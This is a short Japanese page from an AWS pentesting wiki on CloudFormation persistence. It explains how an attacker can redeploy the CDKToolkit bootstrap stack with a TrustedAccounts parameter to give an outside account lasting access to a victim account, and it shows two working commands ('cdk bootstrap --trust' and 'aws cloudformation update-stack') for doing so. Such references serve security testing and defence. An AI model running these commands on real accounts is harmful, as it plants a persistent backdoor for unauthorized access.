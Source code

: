 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

詳細情報については、次にアクセスしてください：

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDKは、`CDKToolkit`というCFNスタックをデプロイします。このスタックは、外部アカウントが被害者アカウントにCDKプロジェクトをデプロイできるようにするパラメータ`TrustedAccounts`をサポートしています。攻撃者は、AWS cliを使用してパラメータでスタックを再デプロイするか、AWS CDK cliを使用して、被害者アカウントへの無期限のアクセスを自分に付与するためにこれを悪用できます。
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
